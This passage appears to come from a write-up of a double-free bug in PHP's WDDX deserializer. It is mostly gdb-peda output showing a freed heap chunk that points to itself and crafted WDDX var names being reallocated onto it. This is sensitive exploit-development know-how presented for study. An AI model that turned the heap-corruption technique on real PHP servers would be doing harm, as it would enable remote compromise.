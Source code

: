 ```
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
1023            ZVAL_UNDEF(&ent->data);
gdb-peda$ x/gx 0x7ffff44710c0
0x7ffff44710c0: 0x00007ffff4471090
```

After the second efree(ent->varname)

```
[-------------------------------------code-------------------------------------]
   0x7c6f0b <php_wddx_process_data+606>:
    lea    rsi,[rip+0x5ca946]        # 0xd91858
   0x7c6f12 <php_wddx_process_data+613>:  mov    rdi,rax
   0x7c6f15 <php_wddx_process_data+616>:  call   0x85637d <_efree>
=> 0x7c6f1a <php_wddx_process_data+621>:  mov    rax,QWORD PTR [rbp-0x60]
   0x7c6f1e <php_wddx_process_data+625>:  mov    DWORD PTR [rax+0x8],0x0
   0x7c6f25 <php_wddx_process_data+632>:
    jmp    0x7c7005 <php_wddx_process_data+856>
   0x7c6f2a <php_wddx_process_data+637>:  mov    eax,DWORD PTR [rbp-0x74]
   0x7c6f2d <php_wddx_process_data+640>:  add    eax,0x1
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffad00 --> 0x7
0008| 0x7fffffffad08 --> 0x400000005
0016| 0x7fffffffad10 --> 0x1219809 ("\n\t\t\t</boolean>\n\t\t</var>\n\t\t<var name=\"YYYYYYYY\">\n\t\t\t<var name=\"ZZZZZZZZ\">\n\t\t\t\t<var name=\"EZEZEZEZ\">\n\t\t\t\t</var>\n\t\t\t</var>\n\t\t</var>\n\t</array>\n</wddxPacket>")
0024| 0x7fffffffad18 --> 0x7fffffffb060 --> 0x1000000002
0032| 0x7fffffffad20 --> 0x7ffff4402a40 --> 0x121d150 --> 0x121cd41 --> 0x65756c6176 ('value')
0040| 0x7fffffffad28 --> 0x7fffffffb060 --> 0x1000000002
0048| 0x7fffffffad30 --> 0x121d168 --> 0x0
0056| 0x7fffffffad38 --> 0x121cd41 --> 0x65756c6176 ('value')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
1023            ZVAL_UNDEF(&ent->data);
gdb-peda$ x/gx 0x7ffff44710c0
0x7ffff44710c0: 0x00007ffff44710c0
```
we got a chunk that point to itself, because zend_mm_alloc_small() will update heap->free_slot[bin_num] = p->next_free_slot.

If we try to malloc with the same size of ent->varname (was freed) at 0x7ffff44710c0 :

1st malloc : YYYYYYYY , zend_mm_alloc_small() will return with 0x7ffff44710c0 and update heap->free_slot[bin_num] = p->next_free_slot = 0x7ffff44710c0 (because 0x7ffff44710c0 point to itself as above).

```
[----------------------------------registers-----------------------------------]
RAX: 0x7ffff44710c0 ("YYYYYYYY")
RBX: 0x5
RCX: 0x12
RDX: 0x9 ('\t')
RSI: 0x12046b0 ("YYYYYYYY")
RDI: 0x7ffff44710c0 ("YYYYYYYY")
RBP: 0x7fffffffad20 --> 0x7fffffffada0 --> 0x121b780 --> 0x1217fe0 --> 0x0
RSP: 0x7fffffffac10 --> 0x7ffff4402a40 --> 0x7ffff44029c0 --> 0x7ffff4402980 --> 0x7ffff4402940 --> 0x7ffff44028c0 --> 0x7ffff4402bc0 --> 0x7ffff4402c00 --> 0x7ffff4402c40 --> 0x7ffff4402c80 --> 0x7ffff4402cc0 --> 0x7ffff4402d00 --> 0x7ffff4402d40 --> 0x7ffff4402d80 --> 0x7ffff4402dc0 --> 0x7ffff4402e00 --> 0x7ffff4402e40 --> 0x7ffff4402e80 --> 0x7ffff4402ec0 --> 0x7ffff4402f00 --> 0x7ffff4402f40 --> 0x7ffff4402f80 --> 0x7ffff4402fc0 --> 0x0
RIP: 0x7c5ce1 (<php_wddx_push_element+2802>:  mov    rdx,rax)
R8 : 0x313
R9 : 0x0
R10: 0x5
R11: 0x1
```